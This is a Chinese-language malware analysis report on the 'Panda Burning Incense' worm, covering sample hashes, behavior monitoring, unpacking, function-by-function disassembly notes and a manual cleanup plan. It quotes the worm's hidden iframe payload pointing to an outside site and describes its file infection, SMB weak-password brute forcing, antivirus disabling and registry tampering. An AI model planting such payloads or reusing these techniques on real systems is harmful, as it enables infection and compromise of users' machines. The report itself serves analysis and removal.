

# 一.样本概况

## 1 .样本信息

```
样本名称
fc33265501545e53d8b112653c61101dd38f4aae670a27b24811ffbf36fab85f-1645766975
样本类型
PE32 executable (GUI) Intel 80386, for MS Windows
样本大小
89600
MD5
445b86e83afba9fc98b2f4feebdf3ce6
SHA1
46fb064ad64637abf65252b358afe3fcab3dae2f
SHA256
fc33265501545e53d8b112653c61101dd38f4aae670a27b24811ffbf36fab85f
SSDeep
1536:svqepQ1rna0ptN5/SJ90+tmOOq4fUDACmuFDCYOVCmRev6JT3j0kE:CpAja0pf5/SFtmOOq4fUj/EQ/kE
```

病毒行为：自我复制,感染可执行文件,修改网页文件内容,修改注册表,删除备份文件,关闭杀毒软件窗口,服务与进程

## 2.分析工具：

    PEiD：病毒加壳、脱壳基础性分析
    IDA Pro：静态分析
    OllyDbg：动态分析
    火绒剑
    PChunter
    ProcessMonitor

## 3.分析目标

 分析恶意代码行为和具体执行流程，并给个手工清理方案 

## 4.PE文件检测


# 二.具体行为分析

 **使用火绒剑工具监控病毒样本的运行，待病毒执行一段时间后，分开查看病毒的行为。分析监控到的日志，主要**观察的点：
     ①文件操作，主要看文件创建、修改、删除等操作
     ②注册表操作，主要看注册表设置、创建等操作
     ③进程操作，主要看创建进程、写入内存等操作
     ④网络操作，主要看网络连接地址、IP等信息
     ⑤其他行为，以及观察病毒样本运行后的反应 

## 2.1进程树比对 


在进程树中可以发现，“熊猫烧香.exe”衍生出了“spoclsv.exe” 并且几秒之后父进程不见了 

由此可以推断 病毒复制了一个副本到系统目录下 并且结束了本进程 

病毒本身创建了名为“spoclsv.exe”的进程，该进程文件的路径为“C:\WINDOWS\system32\drivers\spoclsv.exe”。并进行自我删除


## 2.2 进程行为检查

### 2.2.1 文件操作，主要看文件创建、修改、删除等操作


病毒行为1：创建了两个文件spoclsv.exe”和devcpp.exe


病毒行为2： 给每个文件都创造了一个Desktop_.ini（记录日期）文件 


病毒行为3：创造了autorun.inf 和setup.exe

打开看一看 发现 autorun.inf写入了 自启动项的exe是setup


### 2.2.2注册表修改


病毒行为4：修改了注册表自启动


病毒行为5：修改注册表值 让隐藏文件不可见


 病毒行为6：删除安全类工具的启动项 （看英文orz 


病毒行为7： 连接局域网向外发包 

## 分析情况总结

分析监控的日志以及自行观察操作之后，可以分析出样本的恶意行为：
     1.自我复制样本到C盘：C:\Windows\System32\drivers\目录下，启动C:\Windows\System32\drivers\spo0lsv.exe（即病毒程序）
     2.在每一个目录下创建Desktop_.ini，里面存放的是当前日期
     3.在C盘根目录下创建了autorun.inf文件，其中指定了自动启动的文件为根目录下的setup.exe（即病毒程序）
     4.对程序目录下的exe进行了感染，图标变为熊猫烧香，打开exe时，自动打开病毒
     5.枚举进程、查找窗口、打开设备
     6.设置注册表启动项为C:\Windows\System32\drivers\spo0lsv.exe
     7.自己创建了一个注册表的项，在其中写入了很多信息HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Tracing\spo0lsv_RASAPI32
      8.设置注册表键值，隐藏文件不显示HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL中的CheckedValue值
     9.修改注册表的项IE浏览器的代{过}{滤}理和连接设置
     10.使用CMD命令关闭网络共享
     11.连接局域网的一些地址，访问一些门户网站


# 三.静态分析

## 3.1文件脱壳

 这个壳很好脱，直接单步步过 dump下来，在peid再检测一遍


并且是由Borland Delphi 6.0-7.0编写的。由Delphi所编写的代码与VC++所编写的代码有所不同，最明显的两点区别如下：

​    1、函数调用时参数的传递不完全用栈，而是主要用寄存器，即Delphi编译器默认以register方式传递函数参数。这一点与VC编译的程序完全不同。Delphi一般将第一个参数放入eax寄存器，第二个参数放入edx，第三个参数放入ecx寄存器，其余参数按照与VC程序类似的方式压栈。

​    2、栈上给局部变量分配空间的时候，栈是向下增长的，而栈上的数组、字符串、结构体等却是向上增长的。理解这一点可以帮助识别栈上的变量。

​    对病毒样本进行了简单的侦测之后，就确定了分析的方向，那么接下来就需要使用反汇编工具进行分析了。

### 3.1.1脱壳修复

我们虽然说pe可以检测到，但是文件运行不起来，我们想到了修复导入表，我们在OD右键查找，点击所有模块间的调用，双击一个函数，跳转到调试界面，然后右键跟随，看下图,然后 我们可以在数据窗口点击右键选择`长型->地址`, 就可以显示函数名 


 可以看到块大小0X228

注意我们要向上翻到 IAT 表的起始位置 ，打开`ImportREC`, 选择我们正在调试的这个程序, 然后分别输入`OEP：D0A0, RVA:1012C SIZE:0X228`, 然后点击`获取输入表` 


然后点击 get imoport 

再点击fixdump


附加到脱壳之后的文件上，这时会产生新的文件就已经脱壳完毕了

之后是这样的

## 3.2详细静态分析

这是个delphi v3.0版本，按shift+F5 出来数字签名窗口，右键应用窗口


## 开始分析 

我们在OD里找到入口地址为0X40D0A0，对此处进行F5全盘分析

### 入口地址主目录Sub_0040D0A0（）分析


#### 主目录下关键函数Sub_4082F8()


*函数行为总结：*

1.自我复制到系统目录下，结束本进程，并运行system目录下的病毒文件

2.如果打开系统目录下病毒 ，就跳出此循环

3.如果打开被感染的文件，

* 恢复文件，

* 执行bat批处理，

* 检查系统目录的病毒是否在运行，是的话推出，否则重新运行这个程序

  

#### 主目录下关键函数Sub_40CFB4


*这个函数中有三个函数，分别功能：*
     1.创建线程，遍历目录创建Desktop_.ini
     2.设置了一个定时器，检查C盘中setup.exe和autorun.inf文件是否存在，若不存在则创建
     3.创建线程，进行网络连接 

##### Sub_40CFB4第一个子函数sub_4047ec


进入sub_40A48C函数，函数用了一个死循环  ，可以看到在循环执行sub_409348函数，根据之前的判断，这里应该是在创建Desktop_.ini文件 

一直在扫描所有可用磁盘最后一个函数infectfile是线程回调函数的核心感染文件部

进入infectfile

###### sub_4094A4也就是 infectfile





我们现在看向545行的sub_40800C函数

###### sub_4094A4 子函数sub_40800C函数 这个函数是对exe文件进行感染


######  sub_40800C函数 子函数sub_405644函数

这个函数用指针循环 大概可以猜到是获取文件的名字字符串


###### sub_4094A4 子函数 sub_47ADC函数  595行 . 脚本文件感染 

第二种感染方式相对简单的多 就是在脚本文件末尾追加一段网址:<iframe src=http://www.ac86.cn/66/index.htm width="0" height="0"></iframe> 当用户打开脚本文件时 iframe会隐藏式地开一个网址 由于网址已经废弃 所以我也不知道会发生什么


至此 第一个函数sub_4047ec分析完毕

#### Sub_40CFB4第二个子函数sub_40C5B0

里面有个TimerFunc函数

 进入TimerFunc函数


函数行为总结：

1. 查找所有可用磁盘

2. 确保磁盘根目录下存在一个setup.exe和.ini文件 并设置属性为只读 隐藏 系统

3. 往ini文件里写入几条批处理命令 让setup.exe开机自启动

至此第二个子函数sub_40C5B0分析完毕

#### Sub_40CFB4第三个子函数 sub_408D08


##### sub_408D08 函数里的sub_40BAA0


开启死循环 尝试连接445和139端口 如果连接成功就尝试用管理员弱密码爆破

至此主目录下第二个关键函数 sub_40CFB4分析完毕


#### 主目录下关键函数Sub_40CED4


##### Sub_40CED4函数下sub_40CD30


sub_406f3c()


##### Sub_40CED4函数下sub_40CE8C


##### Sub_40CED4函数下sub_40CE94

这个函数创建了两个线程


第一个函数sub_40cbe8已经分析过了

看第二个函数sub_40cc38


这个函数的重点在于两条cmd命令 这两条命令的含义是删除C盘的网络共享 取消系统根目录的共享

##### Sub_40CED4函数下sub_407540

主要功能：关闭杀软的服务和启动项

## 3．解决方案

### 3.1提取病毒的特征，利用杀毒软件查杀

特征1：whboy

特征2：<iframe src=http://www.ac86.cn/66/index.htm width="0" height="0"></iframe>

特征3：C:\Windows\System32\drivers\spo0lsv.exe

### 3.2 手工查杀步骤

1. 删除【C:\Windows\System32\drivers\spcolsv.exe】文件  

2. 删除【HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVer  sion\Run】键项的svcshare  

3. 删除每个盘符根目录下生成两个文件【autorun.inf和setup.exe】文件

4. 设置【HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\-

Hidden\SHOWALL】CheckedValue的键值设置为1（显示隐藏文件）